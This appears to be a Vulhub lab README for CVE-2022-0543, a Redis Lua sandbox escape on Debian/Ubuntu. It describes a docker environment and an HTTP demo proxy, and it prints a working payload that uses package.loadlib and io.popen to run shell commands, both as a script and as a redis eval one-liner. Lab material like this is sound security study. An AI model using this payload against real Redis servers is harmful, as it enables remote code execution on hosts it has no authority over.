

# Redis Lua Sandbox Escape and Remote Code Execution (CVE-2022-0543)

[中文版本(Chinese version)](README.zh-cn.md)

Redis is an open source (BSD licensed), in-memory data structure store, used as a database, cache, and message broker.

Reginaldo Silva discovered that due to a packaging issue on Debian/Ubuntu, a remote attacker with the ability to execute arbitrary Lua scripts could possibly escape the Lua sandbox and execute arbitrary code on the host.

References:

- <https://www.ubercomp.com/posts/2022-01-20_redis_on_debian_rce>
- <https://bugs.debian.org/cgi-bin/bugreport.cgi?bug=1005787>

## Vulnerability Environment

Execute following command to start a redis server 5.0.7 on Ubuntu and the demo web proxy:

```
docker compose up -d --build
```

After start:
- Redis is only accessible inside the compose network (`redis`).
- A web/proxy service exposes `http://localhost:6379` for demonstration and HTTP calling.

## Simple Web UI and HTTP API

- Open browser: `http://localhost:6379/`, input a command (e.g., `id`) and run to see output.
- Direct HTTP calls:
  - `GET http://localhost:6379/?url=<command>` returns stdout as plain text
  - Alternative: `GET http://localhost:6379/eval?url=<command>`

The `<command>` will be placed into the following Lua script and executed via `io.popen`:

```lua
local io_l = package.loadlib('/usr/lib/x86_64-linux-gnu/liblua5.1.so.0', 'luaopen_io'); local io = io_l(); local f = io.popen('<command>', 'r'); local res = f:read('*a'); f:close(); return res
```

## Exploit

This vulnerability existed because the Lua library in Debian/Ubuntu is provided as a dynamic library. A `package` variable was automatically populated that in turn permitted access to arbitrary Lua functionality.

As this extended to, for example, you can use `package.loadlib` to load the modules from liblua, then use this module to execute the commands:

```lua
local io_l = package.loadlib("/usr/lib/x86_64-linux-gnu/liblua5.1.so.0", "luaopen_io");
local io = io_l();
local f = io.popen("id", "r");
local res = f:read("*a");
f:close();
return res
```

Noted that you should specify a correct realpath for the `liblua` library. In this Vulhub environment (Ubuntu focal), the value is `/usr/lib/x86_64-linux-gnu/liblua5.1.so.0`.

Eval this script in redis shell (if calling via UI/HTTP you can skip this step):

```lua
eval 'local io_l = package.loadlib("/usr/lib/x86_64-linux-gnu/liblua5.1.so.0", "luaopen_io"); local io = io_l(); local f = io.popen("id", "r"); local res = f:read("*a"); f:close(); return res' 0
```

Execute the commands successful:


